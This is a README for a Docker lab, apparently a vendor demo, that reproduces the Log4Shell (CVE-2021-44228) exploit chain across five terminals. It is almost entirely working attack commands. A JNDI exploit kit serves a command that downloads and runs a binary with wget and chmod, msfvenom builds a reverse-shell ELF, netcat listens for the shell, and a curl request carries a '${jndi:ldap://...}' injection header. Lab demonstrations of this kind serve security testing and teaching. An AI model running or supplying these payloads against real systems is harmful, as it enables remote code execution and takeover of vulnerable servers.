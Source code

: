 # log4j km-demo

[https://www.reposhub.com/java/web-frameworks/twseptian-Spring-Boot-Log4j-CVE-2021-44228-Docker-Lab.html](https://www.reposhub.com/java/web-frameworks/twseptian-Spring-Boot-Log4j-CVE-2021-44228-Docker-Lab.html)

ensure that java and mvn are installed prior to this

**clone:**

```bash
# steps to checkout
$ git clone https://github.com/kontainapp/km-demo.git
$ cd km-demo

$ git submodule update --init --recursive
$ git fetch origin

$ git checkout -t origin/sm/demo_log4jshell

# 1-liner
# git clone https://github.com/kontainapp/km-demo.git && cd km-demo && git submodule update --init --recursive && git fetch origin && git checkout -t origin/sm/demo_log4jshell
```

### **Build**

```bash
# build
$ cd km-demo/log4j/
$ make demo
```

### **Terminal 1 (Malicious LDAP server):**

```bash
# T1 - Malicious LDAP Server triggers "wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf"
$ cd km-demo/log4j/JNDI-Exploit-Kit/

# run with docker
$ docker run --network=host --rm log4jshell/jndi_exploit_kit**

OR

$ cd scripts
$ ./t1LdapJNDIExploit.sh

OR

# java jar based run - but could be jdk version issue
$ java -jar ./target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf"
...
... wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf
...
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
**rmi://10.100.101.100:1099/7p5qra
ldap://10.100.101.100:1389/7p5qra

```

### **Terminal 2 (Victim)**:

the vulnerable log4j application

```bash
# T2 - Spring Boot Application Victim that contains a logging line that logs the header with the malicious LDAP string
# runs "java -jar ./target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar" in docker for ease of use
cd km-demo/log4j/
docker run --rm --network=host vulnerable-app
...

OR

# map /tmp to docker else it cant start as it gives error saying can't writeto /tmp
docker run --rm --runtime=krun --network=host -v /tmp:/tmp log4jshell/vulnerable-app-kontain

OR

OR RUN with:
$ ./t2-vulnerable-app.sh
```

### Terminal 3

We use metasploit framework to create the dial back code and HTTP host on port 8081. The command line to create it is:

dial back (`rev.elf`) server (Terminal 3)

```bash

# T3 - Malware server that contains exploits like creating a reverse shell to hackers computer
$ cd km-demo/log4j/

$ cat msfvenom.sh
docker run --name=msfvenom log4jshell/msfvenom
docker cp msfvenom:/tmp/rev.elf /tmp/rev.elf
cd /tmp
python3 -m http.server 8082

$ sh ./msfvenom.sh

OR (without docker)

cd dev/kontain/km-demo/log4j/
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o /tmp/rev.elf
cd /tmp/
python3 -m http.server 8082

OR

$ ./t3msfvenom.sh
```

### Terminal 4

ncat receiving dialback

```bash
# T4 - Reverse Shell Listening Server
nc -l 4444
nc -lvnp 4444

OR

./t4nc.sh
```

### Terminal 5

Attacking curl command

Again there is no special code, we just use curl with the LDAP end point from above encoded:

```bash
# T5 - Attack curl command with malicious LDAP string in header for victim to log
curl 127.0.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1:1389/xqinla}'

# to see
$ cat t5attackcurl.sh
```
